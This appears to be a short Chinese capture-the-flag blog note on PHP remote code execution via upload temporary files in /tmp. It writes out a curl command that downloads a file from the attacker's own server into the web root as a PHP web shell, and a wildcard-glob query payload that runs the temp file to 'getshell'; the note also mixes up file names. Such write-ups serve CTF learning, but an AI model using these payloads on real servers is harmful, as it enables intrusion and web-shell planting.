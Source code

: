 ### 临时文件

临时文件目录

Linux临时文件目录：格式通常是`/tmp/php[6个随机字符]`

Windows临时文件目录：格式通常是`C:/Windows/php[4个随机字符].tmp`

大概就是在自己的vps上写一个命令执行的txt，然后在题目post该命令

```
curl http://your_vps/1.txt &gt; /var/www/html/1.php
```

然后 ?cmd=?&gt;&lt;?=`/??p/p?p??????`;

因为在linux里，如果一个文件里有命令，是可以通过这个文件名执行命令的，这里我们相当于使用临时文件执行了命令

这样就会把dd.txt里的内容以php的形式写入到网站服务器里。完成getshell。


---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-rce/  

